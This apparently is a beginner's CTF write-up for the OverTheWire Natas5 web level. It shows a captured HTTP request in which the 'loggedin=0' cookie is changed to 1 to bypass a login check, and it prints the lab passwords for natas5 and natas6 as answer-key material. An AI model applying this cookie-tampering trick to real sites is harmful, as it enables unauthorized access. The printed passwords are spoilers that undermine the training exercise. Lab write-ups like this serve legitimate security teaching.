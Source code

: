 # CTF Writeup - **OverTheWire Natas4 - Natas5**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas4 - Natas5
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 1-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite.

---

## Approach

Since this is an basic challenge, I planned to use burp suite for this challenge in order to manipulate the request sent to the server.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas5
Password: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
URL:      http://natas5.natas.labs.overthewire.org
```

After logging in, we can see that the webpage says `Access disallowed. You are not logged in`.  It is saying that we are not logged in but we just logged in right. Lets see the request using burpsuite and modify it.

```bash
# GET / HTTP/1.1
# Host: natas5.natas.labs.overthewire.org
# Cache-Control: max-age=0
# Authorization: Basic bmF0YXM1OjBuMzVQa2dnQVBtMnpiRXBPVTgwMmMweDBNc24xVG9L
# Accept-Language: en-US,en;q=0.9
# Upgrade-Insecure-Requests: 1
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Accept-Encoding: gzip, deflate, br
# Cookie: loggedin=0
# Connection: keep-alive
```

The above is the request that got captured while sending it to the server. We can see that there is a flag called `loggedin` which is set to `0`.  Now lets try to change it to `1` to see if we can get any information after logging in. We can see that it gives as the password for the next level.

```bash
# Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```

## Flag

**Flag:** 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

---

## Lessons Learned

It was a good challenge where i learned about what burp suite is and how to work with them to capture request and modify it.
